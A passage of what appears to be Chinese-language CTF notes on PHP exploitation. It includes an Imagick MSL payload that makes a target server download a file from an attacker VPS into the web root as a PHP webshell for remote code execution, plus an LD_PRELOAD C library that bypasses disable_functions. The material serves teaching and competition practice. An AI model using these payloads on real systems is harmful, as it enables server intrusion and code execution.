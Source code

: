   ```
  <image>
  <read filename="http://vps:12345/positive.png" />
  <write filename="/var/www/html/positive.php"/>
  </image>
  ------WebKitFormBoundaryeTvfNEmqTayg6bqr--
  ```

  发送后，靶机就往VPS中请求了该文件，并且把该文件下载到了指定目录，访问后即可RCE。

  这种手法的限制：

  1. 需要通网，当然如果不通网这种手法也存在一个重命名文件的功能，如果网站有上传功能可以利用这个手法将恶意的JPG重命名成PHP；
  2. 需要知道网站的目录（比赛中通常是/var/www/html或者/app这类）；
  3. 需要在网站目录下有写权限，当然如果知道类似于upload这种文件夹的路径也可以（因为通常它们是可写的；
  4. 最最重要的：需要有装Imagick扩展，该扩展其实不是默认自带的（一定程度上限制了攻击面）。

- `$class = new $a($b);` / `(new $a($b))->$c();`

  复制

  ```
  $class=new Exception("test string");
  echo $class‐>__toString();
  
  echo new Error('system')->getMessage();
  ```

  

### bypass disable_function

- **LD_PRELOAD**

  Linux操作系统的动态链接库在加载过程中，动态链接器会先读取LD_PRELOAD环境变量和默认配置文件 `/etc/ld.so.preload`，并将读取到的动态链接库文件进行预加载，即使程序不依赖这些动态链接库，LD_PRELOAD环境变量和 `/etc/ld.so.preload` 配置文件中指定的动态链接库依然会被装载，因为它们的优先级比LD_LIBRARY_PATH环境变量所定义的链接库查找路径的文件优先级要高，所以能够提前于用户调用的动态库载入。

  通过LD_PRELOAD环境变量，能够轻易的加载一个动态链接库。通过这个动态库劫持系统API函数，每次调用都会执行植入的代码。

  利用 `error_log` 与 `mail` 函数劫持 `getuid` 函数，系统通过环境变量(env)中的LD_PRELOAD加载动态链接库。

  复制

  ```
  // hack.c
  // 将其按照系统操作位数生成对应的so文件
  // gcc -c -fPIC hack.c -o hack
  // gcc --share hack -o hack.so
  
  #include <stdlib.h>
  #include <stdio.h>
  #include <string.h>
  
  __attribute__ ((__constructor__)) void preload (void){
      unsetenv("LD_PRELOAD");
      system("id");
  }
  ```
